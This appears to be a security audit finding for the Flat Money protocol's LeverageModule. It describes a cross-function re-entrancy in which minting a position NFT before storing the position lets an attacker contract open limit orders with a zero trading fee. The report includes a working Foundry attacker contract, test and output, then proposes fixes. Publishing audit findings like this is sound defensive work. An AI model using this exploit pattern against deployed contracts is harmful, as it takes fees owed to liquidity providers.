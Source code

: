 Boxy Garnet Wolverine

high

# A malicious user can bypass limit order trading fees via cross-function re-entrancy

## Summary
A malicious user can bypass limit order trading fees via cross-function re-entrancy, since `_safeMint` makes an external call to the user before updating state.

## Vulnerability Detail
In the `LeverageModule` contract, the `_mint` function calls `_safeMint`, which makes an external call to the receiver of the NFT (the `to` address).

<details>
<summary>LeverageModule::_mint()</summary>

```javascript
function _mint(address _to) internal returns (uint256 _tokenId) {
        _tokenId = tokenIdNext;

        _safeMint(_to, tokenIdNext);

        tokenIdNext += 1;
}
```
</details>

Only after this external call, `vault.setPosition()` is called to create the new position in the vault's storage mapping. This means that an attacker can gain control of the execution while the state of  `_positions[_tokenId]` in FlatcoinVault is not up-to-date.

<details>

<summary>LeverageModule::executeOpen()</summary>

```javascript
_newTokenId = _mint(_account); // Here, an attack gains control of execution

vault.setPosition( // This updates _positions[_tokenId] in the FlatcoinVault, but after the external call
    FlatcoinStructs.Position({
        lastPrice: entryPrice,
        marginDeposited: announcedOpen.margin,
        additionalSize: announcedOpen.additionalSize,
        entryCumulativeFunding: vault.cumulativeFundingRate()
    }),
    _newTokenId
);
```

> Permalink: https://github.com/sherlock-audit/2023-12-flatmoney/blob/bba4f077a64f43fbd565f8983388d0e985cb85db/flatcoin-v1/src/LeverageModule.sol#L111-L121

</details>

This outdated state of `_positions[_tokenId]` can be exploited by an attacker once the external call has been made. They can re-enter `LimitOrder::announceLimitOrder()` and provide the tokenId that has just been minted.
In that function, the trading fee is calculated as follows:

```javascript
uint256 tradeFee = ILeverageModule(vault.moduleAddress(FlatcoinModuleKeys._LEVERAGE_MODULE_KEY)).getTradeFee(
    vault.getPosition(tokenId).additionalSize
);
```
However since the position has not been created yet (due to state being updated after an external call), this results in the `tradeFee` being 0 since `vault.getPosition(tokenId).additionalSize` returns the default value of a uint256 (0), and `tradeFee` = fee * size.

Hence, when the limit order is executed, the trading fee (`tradeFee`) charged to the user will be `0`.

## Impact
A malicious user can bypass the trading fees for a limit order, via cross-function re-entrancy. These trading fees were supposed to be paid to the LPs by increasing `stableCollateralTotal`, but due to limit orders being able to bypass trading fees (albeit during the same transaction as opening the position), LPs are now less incentivised to provide their liquidity to the protocol.

## Code Snippet
https://github.com/sherlock-audit/2023-12-flatmoney/blob/bba4f077a64f43fbd565f8983388d0e985cb85db/flatcoin-v1/src/LeverageModule.sol#L111-L121

## Proof of Concept
Summary:
1. A user announces opening a leverage position, calling announceLeverageOpen() via a smart contract which implements `IERC721Receiver`.
2. Once the keeper executes the order, the contract is called, with the function `onERC721Received(address,address,uint256,bytes)`
3. The function calls `LimitOrder::announceLimitOrder()` to create the desired limit order to close the position. (stop loss, take profit levels)
4. The contract then returns `msg.sig` (the function signature of the executing function) to satify the `IERC721Receiver`'s requirement.

To run this proof of concept:
1. Add 2 files `AttackerContract.sol` and `ReentrancyPoC.t.sol` to `flatcoin-v1/test/unit` in the project's repo.
2. run `forge test --mt test_tradingFeeBypass -vv` in the terminal

<details><summary>Attacker Contract</summary>

```javascript
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity 0.8.18;

import {OrderHelpers} from "../helpers/OrderHelpers.sol";
import {FlatcoinStructs} from "../../src/libraries/FlatcoinStructs.sol";
import "forge-std/console2.sol";
import {Setup} from "../helpers/Setup.sol";
import {LimitOrder} from "src/LimitOrder.sol";

contract AttackerContract {

    LimitOrder limitOrderProxy;

    function setLimitOrderProxy(address limitOrderAddress) external {
        limitOrderProxy = LimitOrder(limitOrderAddress);
    }
    function onERC721Received(address operator, address from, uint256 tokenId, bytes calldata data) external returns(bytes4) {
        // Do the cross-function re-entrancy
        limitOrderProxy.announceLimitOrder(tokenId, 750e18, 1250e18);

        // Return the function signature (required by the standard)
        return msg.sig;
        // Note: Also could return `this.onERC721Received.selector` or `bytes4(keccak256("onERC721Received(address,address,uint256,bytes)"))`
    }
}
```
</details>

<details>
<summary>Proof of Concept (Foundry Test)</summary>

```javascript
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity 0.8.18;

import {OrderHelpers} from "../helpers/OrderHelpers.sol";
import {FlatcoinStructs} from "../../src/libraries/FlatcoinStructs.sol";
import "forge-std/console2.sol";
import {AttackerContract} from "./AttackerContract.sol";
import {Setup} from "../helpers/Setup.sol";

contract ReentrancyPoC is Setup, OrderHelpers {
    function test_tradingFeeBypass() public {
        
        // Set up and initialize the attacker's contract
        AttackerContract attackerContract = new AttackerContract();
        attackerContract.setLimitOrderProxy(address(limitOrderProxy));

        // Deal the exploiter contract with WETH + ETH
        deal(address(WETH), address(attackerContract), 100_000e18); // Loading account with `token`.
        deal(address(attackerContract), 100_000e18); // Loading account with native token.

        uint256 aliceBalanceBefore = WETH.balanceOf(alice);
        uint256 stableDeposit = 100e18;
        uint256 collateralPrice = 1000e8;

        // Alice provides liquidity
        vm.startPrank(alice);
        announceAndExecuteDeposit({
            traderAccount: alice,
            keeperAccount: keeper,
            depositAmount: stableDeposit,
            oraclePrice: collateralPrice,
            keeperFeeAmount: 0
        });
        vm.stopPrank();

        // Contract opens position: 10 ETH collateral, 30 ETH additional size (4x leverage)
        uint256 tokenId = announceAndExecuteLeverageOpen({
            traderAccount: address(attackerContract),
            keeperAccount: keeper,
            margin: 10e18,
            additionalSize: 30e18,
            oraclePrice: collateralPrice,
            keeperFeeAmount: 0
        });

        // Get the limit order that has been created by the attacker's contract
        FlatcoinStructs.Order memory limitOrderCreated = limitOrderProxy.getLimitOrder(tokenId);

        // Get the order's data
        FlatcoinStructs.LimitClose memory orderData = abi.decode(limitOrderCreated.orderData, (FlatcoinStructs.LimitClose));
        
        ///////////////////////
        // POC Assertions    //
        ///////////////////////
        // Assert that the tradeFee for the limit order is 0
        assertEq(orderData.tradeFee, 0);

        // Assert that the price threshold is 750e18, showing that it is not zero, showing that the orderData is not just returning the default values.
        assertEq(orderData.priceLowerThreshold, 750e18);


        ///////////////////////
        // Other Assertions  //
        ///////////////////////
        // The following assertions are copied from another test in the test suite-

        // ERC721 token assertions:
        {
            (uint256 buyPrice, ) = oracleModProxy.getPrice();
            // Position 0:
            FlatcoinStructs.Position memory position0 = vaultProxy.getPosition(tokenId);
            assertEq(position0.lastPrice, buyPrice, "Entry price is not correct");
            assertEq(position0.marginDeposited, 10e18, "Margin deposited is not correct");
            assertEq(position0.additionalSize, 30e18, "Size is not correct");
            assertEq(tokenId, 0, "Token ID is not correct");
        }
        // PnL assertions:
        {
            FlatcoinStructs.PositionSummary memory positionSummary0 = leverageModProxy.getPositionSummary(tokenId);
            uint256 collateralPerShareBefore = stableModProxy.stableCollateralPerShare();

            // Check that before the WETH price change, there is no profit or loss change
            assertEq(positionSummary0.profitLoss, 0, "Pnl for user 0 is not correct");
            assertEq(
                positionSummary0.marginAfterSettlement,
                10e18,
                "Margin after settlement for user 0 is not correct"
            ); // full margin available
        }
    }  
}
```

</details>

<details>
<summary> Console Output </summary>

```powershell
Running 1 test for test/unit/ReentrancyPoC.t.sol:ReentrancyPoC
[PASS] test_tradingFeeBypass() (gas: 2006498)
Logs:
  tradeFee: 0

Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 8.81ms
 
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

</details>

## Tool used
Manual Review

## Recommendation
To fix this specific issue, the following change is sufficient:
```diff
-_newTokenId = _mint(_account); 

vault.setPosition( 
    FlatcoinStructs.Position({
        lastPrice: entryPrice,
        marginDeposited: announcedOpen.margin,
        additionalSize: announcedOpen.additionalSize,
        entryCumulativeFunding: vault.cumulativeFundingRate()
    }),
-   _newTokenId
+   tokenIdNext
);
+_newTokenId = _mint(_account); 
``` 
However there are still more state changes that would occur after the `_mint` function (potentially yielding other cross-function re-entrancy if the other contracts were changed) so the optimum solution would be to mint the NFT after all state changes have been executed, so the safest solution would be to move `_mint` all the way to the end of `LeverageModule::executeOpen()`.

Otherwise, if changing this order of operations is undesirable for whatever reason, one can implement the following check within `LimitOrder::announceLimitOrder()` to ensure that the `positions[_tokenId]` is not uninitialized:

```diff
uint256 tradeFee = ILeverageModule(vault.moduleAddress(FlatcoinModuleKeys._LEVERAGE_MODULE_KEY)).getTradeFee(
    vault.getPosition(tokenId).additionalSize
);

+require(additionalSize > 0, "Additional Size of a position cannot be zero");

```
